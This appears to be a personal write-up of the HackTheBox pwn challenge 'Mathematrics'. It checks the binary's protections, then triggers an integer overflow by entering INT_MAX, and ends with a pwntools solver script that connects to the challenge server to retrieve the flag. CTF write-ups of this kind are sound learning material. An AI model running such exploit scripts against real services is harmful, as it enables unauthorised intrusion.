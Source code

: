 ```yaml
---
title: Mathematrics
tags:
  - CTF
  - HackTheBox
  - Pwn
---
```

First, I checked the security of the binary with `checksec`:

![](Pasted%20image%2020241023220130.png)

As we can see, all protection are enabled:

|Protection|Enabled|Usage|
|:-:|:-:|:-:|
|**Canary**|✅|Prevents **Buffer Overflows**|
|**NX**|✅|Disables **code execution** on stack|
|**PIE**|✅|Randomizes the **base address** of the binary|
|**RelRO**|**Full**|Makes some binary sections **read-only**|

Then, we execute once the binary locally:

![](Pasted%20image%2020241023155632.png)

If this is the Buffer Overflow it seems to be, what we must do is to input the maximum integer value to the first variable and assign a 1 to the otherone to create an Integer overflow (i.e. 2147483647 and then 1):

![](Pasted%20image%2020241023160006.png)

BTW, inspecting the binary with Ghidra, we can find the function where the inputted numbers are stored and then search in Google for: "int32_t max value":

![](Pasted%20image%2020241023160546.png)

![](Pasted%20image%2020241023160220.png)

The exploit provided was this:

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './mathematricks' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

sla = lambda x,y : r.sendlineafter(x,y)

sla('🥸 ', '1') # play game

# Questions
sla('> ', '2')
sla('> ', '1')
sla('> ', '0')
sla('n1: ', '2147483647') # INT_MAX
sla('n2: ', '1337')

print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```